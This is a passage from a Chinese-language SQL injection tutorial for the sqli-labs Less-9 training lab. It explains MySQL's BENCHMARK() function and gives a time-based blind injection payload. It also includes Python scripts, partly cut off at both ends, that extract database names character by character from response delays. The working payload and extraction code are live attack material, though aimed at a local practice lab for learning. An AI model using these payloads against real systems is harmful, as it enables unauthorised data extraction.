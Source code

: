 ```python
            break
        if time.time()-start_time > 3:
            min = mid # [mid,max]
        else:
            max = mid # [min,mid]
    i += 1
    if chr(max) == '!':
        vis += 1
    if vis == 2:
        break
    ans += chr(max)
    print(ans)
print(ans)
"""
```





## benchmark函数

这个是通过BENCHMARK(count,expr)，用于测试函数的性能

- count : 为次数
- expr : 要执行的表达式

```mysql
mysql> select BENCHMARK(12000000,MD5(1));
+----------------------------+
| BENCHMARK(12000000,MD5(1)) |
+----------------------------+
|                          0 |
+----------------------------+
1 row in set (3.54 sec)  -- 3.54
```



一样的，使用Less-9

payload : `id=1' and if(ord(substr(,1,1)=54),benchmark(12000000,md5(1)),1) %23`

> [!WARNING]
>
> 延时大概3秒左右，这个函数不建议使用，因为它会受到电脑性能的影响导致时差不同，获取的数据自然就不对，我下面的几个模板只做参考

获取数据库名

```python
import time
import requests

ans = ''

for i in range(1,15):
    print('*'*15,i,'*'*15)
    min = 32
    max = 128
    while min != max:
        mid = (min+max)//2
        start_time = time.time()
        url = "http://localhost/sqli-labs/Less-9/?id=1"\
        "and if(ord(substr((select group_concat(schema_name) from information_schema.schemata),{i},1))>{mid},benchmark(12000000,md5(1)),1) %23"
        res = requests.get(url).text
        if min+1 == max:
            break
        if time.time()-start_time > 3:
```